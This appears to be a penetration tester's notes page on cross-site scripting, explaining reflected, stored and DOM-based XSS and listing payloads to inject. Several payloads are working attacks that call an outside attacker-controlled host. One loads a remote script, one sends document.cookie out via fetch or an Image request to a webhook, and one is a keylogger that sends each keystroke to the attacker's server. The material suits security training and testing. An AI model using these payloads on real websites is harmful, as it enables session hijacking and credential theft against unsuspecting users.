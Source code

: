 #XSS #JavaScript 

## What is it?

Commonly known as cross-site scripting (XSS), JavaScript injection is where an attacker can inject arbitrary JavaScript to be executed.

**A simple example**
-   A vulnerable webapp allows users to post comments.
-   When a user submits a comment, the website stores it and then displays it on the homepage without any validation or sanitization.
-   An attacker could exploit this by posting `<script>prompt(1)</script>` to the site.
-   When a user visits the homepage, the payload is executed in that users browser.
## Exploitation

```
alert(1)
prompt(1)
```

```
<script src="http://<our-ip>/script.js"></script>
```

```
let cookie = document.cookie
let encodedCookie = encodeURIComponent(cookie)
fetch("https://<your-web-server>/e?c=" + encodedCookie)
```

```
function logKey(event){
    fetch("http://<your-web-server>/e?c=" + event.key)
}
document.addEventListener('keydown', logKey);
```

---

Executes JavaScripts in a victims browser ([HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting) has more payloads for each type)

1. **Reflected** - scripts you are trying to inject comes from the current HTTP request. You send a request with the script in it, and you get a response, that script is included in the response. Can only target yourself unless the payload is in the URI and you entice a user to click on the link.
2. **Stored** - Payload is stored in a database to retrieve later. Allows attacks on other users.
3. **DOM-based** - Client side has vulnerable JavaScript that uses untrusted input instead of having a vulnerability server side.

Before you check for XSS vulnerabilities, check for HTML injection first:
- `<h1>Test</h1>`

**Reflected/Stored XSS payloads:**
- `alert(1)` - popular XSS attack, pops a window in browser
	- may need to test with `print` and `prompt` as `alert` may be filtered out
- `print()
- `prompt("hello")`
- `<script>alert(document.cookie)</script>`

We can create a function called `logKey` to create an Event Listener for keystrokes and output them in the console. Real attack would replace console with a fetch API to exfiltrate information:
- `function logKey(event){console.log(event.key)}`
- `document.addEventListener('keydown', logKey)`

**[DOM payloads](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss):**
- `<script>prompt(1)</script>`
- `<img src=x onerror="prompt(1)">`
- `<img src=x onerror="window.location.href='https://google.com'">`

Stored payloads are the same for reflected but when you reload the web page, the payload activates again as it is stored (`<script>prompt(1)</script>)
- You can check the other container (started with Firefox container extension) and reload that page. The same script will be activated as the other container since it is now stored in the web page
- `<script>alert(document.cookie)</script>`

Payload to get cookie and view it in [Webhook](https://webhook.site/#!/view/becd615c-85f0-4ae8-9b5d-13a9dd8a46f6):
- `<script>var i=new Image; i.src="<Webhook URL>/?"+document.cookie;</script>`
- cookie is visible in webhook web page
